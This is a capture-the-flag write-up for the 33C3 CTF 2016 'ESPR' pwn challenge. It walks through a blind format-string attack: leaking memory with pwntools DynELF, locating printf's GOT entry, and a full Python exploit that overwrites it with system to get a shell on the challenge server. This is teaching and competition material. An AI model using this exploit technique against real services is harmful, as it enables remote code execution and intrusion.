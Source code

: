 ```yaml
---
title: '33C3 CTF 2016 -- ESPR'
date: 2016-12-29 22:52
tags:
  - 33C3
  - CTF
  - Python
  - Pwnable
  - format_string
categories:
  - write-ups
author: bruce30262
---
```

**Category:** pwn
**Points:** 150

<!-- more -->  

This time there's no binary or libc.so provided, only an image looks like this:
```

eat:                  sleep:
+-----------------+   +----------------+
| sub rsp, 0x100  |   | mov edi, 0x1   |
| mov rdi, rsp    |   | call _sleep    |
| call _gets      |   |                |
|                 |   |                |
+-----------------+   +----------------+
pwn:                  repeat:
+-----------------+   +----------------+
| mov rdi, rsp    |   |                |
| call _printf    |   | jmp eat        |
| add rsp, 0x100  |   |                |
|                 |   |                |
+-----------------+   +----------------+
```

Interesting...

So apparently the program has two vulnerabilities: **stack overflow** & **format string**. Since we can't actually exploit the stack overflow vulnerability (the program likely won't return because of the infinite loop), we'll have to focus on the format string vulnerability and exploit the service without having the binary file.

So how are we gonna do this? Fortunately, [pwntools](https://github.com/Gallopsled/pwntools) is here to rescue! **By using the amazing [DynELF](http://docs.pwntools.com/en/stable/dynelf.html) module, we're able to resolve & leak some address without the need for binary!** 

First we'll need a `leak` function to let pwntools able to leak data at an arbitrary address. Here we exploit the format string vulnerability to leak an arbitrary address: 
```python leak
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2) # receive the rest of the string
    return ret
```
Then we need a pointer into the binary. I got the pointer by entering `%30$p`, which returned `0x40060d`. Now we can use the `DynELF` module to help us resolve some function addresses.

First we'll need to resolve the address of `printf` and `system`:
```python leak library addresses
d = DynELF(leak, 0x40060d)
system_addr = d.lookup('system', 'libc')
printf_addr = d.lookup('printf', 'libc')

log.success("printf_addr: "+hex(printf_addr))
log.success("system_addr: "+hex(system_addr))
```

It took a while because of `sleep(1)`, and pwntools will need a lot of addresses to resolve those functions.
```
[+] printf_addr: 0x7fb040a17550
[+] system_addr: 0x7fb040a066d0
```

OK so now we know the offset between `printf` and `system`. Next time we'll just have to leak `printf@got.plt`, calculate `system`'s address and use it to overwrite `printf`'s GOT entry, finally we'll be able to hijack `printf`'s GOT and call `system("sh")` by entering "sh".

But first we'll have to know the address of `printf@got.plt`. Luckily, not only can `DynELF` resolve function addresses, it can also resolve some useful addresses such as the pointer to the `.dynamic` section:
```python resolve .dynamic section
d = DynELF(leak, 0x40060d)
dynamic_ptr = d.dynamic
```

Once we got the `.dynamic` section's address, we can use it to locate the `.got.plt` area:
```
Dynamic section at offset 0xe28 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x400400
 0x000000000000000d (FINI)               0x400614
 0x0000000000000019 (INIT_ARRAY)         0x600e10
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600e18
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400298
 0x0000000000000005 (STRTAB)             0x400330
 0x0000000000000006 (SYMTAB)             0x4002b8
 0x000000000000000a (STRSZ)              68 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x601000  <--- here
```
```python resolve PLTGOT
    cnt = 0
    while True:
        addr = dynamic_ptr + 0x10*cnt
        ret = leak(addr)
        if ret == "\x03\x00": #TYPE PLTGOT
            addr += 8
            for i in xrange(8):
                ret = leak(addr+i)
                print "ret:", ret.encode('hex')
            break
        else:
            cnt += 1
```

Now we can find where `printf@got.plt` is, by leaking all the GOT entry and compare the low 12 bits of the function address (see if it ends with `550`):
```python resolve printf@got.plt
got = 0x601000
for i in xrange(8):
    addr = got + i*8
    ret = leak(addr)
    print "ret:", ret.encode('hex')
```

Finally, we can start exploiting the service:
```python exp_espr.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.86"
PORT = 1337
# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
	r.recvrepeat(0.2)
    return ret
    
if __name__ == "__main__":

    r = remote(HOST, PORT)

    printf_got = 0x601018
    printf_addr = u64(leak(printf_got).ljust(8, "\x00"))
    system_addr = printf_addr - 0x10e80 # remote

    log.success("printf_addr: "+hex(printf_addr))
    log.success("system_addr: "+hex(system_addr))

    byte1 = system_addr & 0xff
    byte2 = (system_addr & 0xffff00) >> 8
    log.success("byte1: "+hex(byte1))
    log.success("byte2: "+hex(byte2))

    payload = "%" + str(byte1) + "c" + "%10$hhn."
    payload += "%" + str(byte2-byte1-1) + "c" + "%11$hn."
    payload = payload.ljust(32, "A")
    payload += p64(printf_got) + p64(printf_got+1)
    r.sendline(payload)
    r.sendline("sh\x00")
    r.interactive()
```

flag: `33C3_f1rst_tshirt_challenge?!`
